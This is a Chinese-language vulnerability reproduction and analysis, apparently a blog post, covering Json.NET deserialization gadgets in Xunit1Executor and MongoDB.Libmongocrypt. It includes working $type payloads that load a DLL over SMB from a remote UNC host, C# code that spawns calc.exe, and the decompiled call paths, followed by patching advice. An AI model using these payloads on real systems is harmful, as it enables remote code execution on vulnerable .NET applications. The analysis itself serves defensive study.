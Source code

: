 
Xunit1Executor 和 MongoDB 反序列化漏洞复现和分析

- - -

# Xunit1Executor 和 MongoDB 反序列化漏洞复现和分析

## 一、Xunit1Executor

Xunit.Net 是一款 .NET 平台免费开源的单元测试框架，常用于并行测试和数据驱动测试。目前支持 .Net Framework、.Net Core、.Net Standard、UWP、Xamarin 等平台。这个组件中的 WindowsLibrary 类在反序列化时可加载 UNC 路径下的非托管 dll，从而触发任意命令执行漏洞，下面我们将详细介绍漏洞原理及复现过程。

### 漏洞复现

xunit 组件可以在 Nuget 上获取，打开项目包管理器，浏览名为“xunit.runner.utility”的包，点击安装即可。接着使用 Ysoserial 生成 Payload，具体 Payload 代码如下所示

```plain
{
    '$type':'Xunit.Xunit1Executor, xunit.runner.utility.net',
    'useAppDomain':true,
    'testAssemblyFileName':'\\192.168.101.86\\Poc\\xunit.dll'
}
```

上述代码通过远程SMB协议建立主机之间的通信后，再加载基于C#实现的托管xunit.dll文件，而xunit.dll实现上需要Executor类

```plain
public class Executor
    {
        public Executor(string poc)
        {
            ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c calc.exe");
            Process proc = new Process();
            proc.StartInfo = psi;
            proc.Start();
        }
    }
```

最后调用 JSON.Net 反序列化执行，虽然抛出异常，但不影响触发命令执行，如图所示。

[![](assets/1706959594-cc64dbbd650f067f2f7df6fd237ffb06.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125123928-b954547a-bb3b-1.png)

### 漏洞分析

反编译打开 xunit.runner.utility.dll 分析源代码，快速定位到 Xunit1Executor 类，该类创建对象时会调用默认的构造方法，

[![](assets/1706959594-262fa1a4a5cd8adf7db83dd85f4cc3b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125123945-c3ae291e-bb3b-1.png)

图中 Xunit1Executor 构造方法创建一个新的 AppDomain 用来加载单元测试用例提供的.NET 程序集。程序集的路径由 Xunit1Executor.GetXunitAssemblyPath 方法获取，如图所示。

[![](assets/1706959594-220bf6f5a580691f859fba86d70e9e4c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125123955-c973d8d0-bb3b-1.png)

从代码实现上可以看出加载的文件名为“xunit.dll”，因此我们在反序列化构建 Payload 时也需要提供同名的 dll 文件。接着构造方法里使用 CreateObject 方法从 xunit.dll 程序集中创建类型为 Xunit.Sdk.Executor 的对象

```plain
this.executor = this.CreateObject("Xunit.Sdk.Executor", new object[]
{
    testAssemblyFileName
});
```

跟进 CreateObject 方法的定义，发现是定义在 IAppDomainManager 接口中，AppDomainManager\_AppDomain 类实现了 IAppDomainManager 接口，也重写了 CreateObject 方法，如图所示。

[![](assets/1706959594-22efad294e8965dfbb2e8c0008cf8f74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124009-d23b28a6-bb3b-1.png)

内部还是调用了 AppDomain.CreateInstanceAndUnwrap 方法在 AppDomain 中创建了 Xunit.Sdk.Executor 对象，AppDomain.CreateInstanceAndUnwrap 方法可以通过反射程序集的方式创建对象从而执行命令。

## 二、MongoDB

MongoDB.Libmongocrypt 是 MongoDB 的一个库，集成于 MongoDB .NET 版本的驱动程序，常用于提供端到端的加密支持，达到保护 MongoDB 数据在传输和存储时的安全性。这个组件中的 WindowsLibrary 类在反序列化时可加载 UNC 路径下的非托管 dll，从而触发任意命令执行漏洞，

### 漏洞复现

这个组件包可以在 Nuget 上获取，打开项目包管理器，浏览名为“MongoDB.Libmongocrypt”的包，点击安装即可。我们使用 Ysoserial 生成 Payload，具体 Payload 代码如下所示

```plain
{
    '$type':'MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary, MongoDB.Libmongocrypt, PublicKeyToken=null',
    'path':'\\192.168.101.86\\Poc\\calc.dll'
}
```

上述代码通过远程 SMB 协议建立主机之间的通信后，再加载基于 C++ 实现的非托管 calc.dll 文件，最后 JSON.Net 反序列化执行成功触发命令执行

[![](assets/1706959594-cc2eaeb0dbaac7a545ebb4d50854ddec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124021-d934f344-bb3b-1.png)

### 漏洞分析

反编译打开 MongoDB.Libmongocrypt.dll 分析源代码，快速定位到 WindowsLibrary 类，该类创建对象时会调用其构造方法并传入一个字符型参数 path，如图所示。

[![](assets/1706959594-a3db6f7811c1d200a2b96b95ac5ee92a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124033-e01bcaca-bb3b-1.png)

我们观察到内部通过 LibraryLoader.WindowsLibrary.LoadLibrary 方法加载参数 path，查看 LoadLibrary 的声明发现就是调用 Windows API LoadLibrary 函数，因此可以执行非托管 dll，如图所示

[![](assets/1706959594-0a366f1ed0e82e291d788b91bd70cfe8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125124043-e5fa87a6-bb3b-1.png)

至此两个.NET 组件出现的漏洞分析完毕，

## 修复建议

以下是一些修复.NET 开源组件漏洞的建议和防御措施。持续关注各个开源组件的安全更新和发布，及时升级到最新的版本。开源社区通常会修复漏洞并发布更新，使用最新版本能够有效地防范已知漏洞。  
针对开源组件提供的配置项，仔细审查并按照最佳实践进行安全配置。避免过于开放的默认设置，尽可能限制组件的权限和功能范围，减少潜在攻击面。

## 小结

本文详细介绍了 2 个.NET 开源组件的安全漏洞，这些漏洞的存在可能导致严重的安全风险，包括远程代码执行等。因此，开发者在使用这些组件时需保持高度警惕，采取积极的安全措施来降低潜在风险。建议开发者密切关注组件的安全公告，及时升级到修复漏洞的最新版本，并按照最佳实践进行安全配置和使用。此外，定期进行安全审查，确保项目中使用的组件不受已知漏洞的影响，有助于提高应用系统的整体安全性。
